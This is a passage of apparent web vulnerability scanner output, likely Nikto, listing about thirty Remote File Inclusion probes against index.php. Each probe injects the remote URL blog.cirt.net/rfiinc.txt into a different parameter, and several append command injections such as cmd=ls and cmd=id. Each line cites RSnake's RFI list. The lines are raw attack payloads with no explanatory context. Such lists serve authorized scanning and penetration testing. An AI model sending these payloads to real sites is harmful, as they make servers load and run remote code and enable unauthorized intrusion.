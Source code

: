 + /index.php?lang=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?language=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?language=en&main_page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?lizge=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?lng=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?load=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?loadpage=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?main_tabid=1&main_content=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?may=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?middle=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mode=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mode=http://blog.cirt.net/rfiinc.txt?&cmd=: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?modpath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?module=PostWrap&page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?news7[\"functions\"]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?news_include_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?open=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?option=com_custompages&cpage=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt%00: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pagehttp://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page[path]=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pageNikto=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pagename=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pager=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pagina=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?path_to_folder=http://blog.cirt.net/rfiinc.txt?cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pg=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pg=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?phpbb_root_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
